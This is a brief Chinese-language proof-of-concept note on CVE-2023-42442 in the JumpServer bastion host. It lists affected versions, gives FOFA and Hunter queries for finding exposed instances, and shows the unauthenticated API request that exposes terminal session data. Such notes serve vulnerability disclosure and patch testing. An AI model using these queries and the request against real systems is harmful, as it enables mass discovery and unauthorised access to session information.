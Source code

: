 ## CVE-2023-42442

## 影响版本
3.0.0 <= JumpServer <= 3.5.4

3.6.0 <= JumpServer <= 3.6.3

## fofa
```
icon_hash="-1162630024"
```

## Hunter
```
app.name="JumpServer"
```
## POC

JumpServer 是一款开源的堡垒机。 在JumpServer受影响版本中，由于/api/v1/terminal/sessions/接口没有添加权限认证，未授权的攻击者可以通过访问/api/v1/terminal/sessions/?limit=1，获取堡垒机terminal的session信息
```
/api/v1/terminal/sessions/?limit=1
```

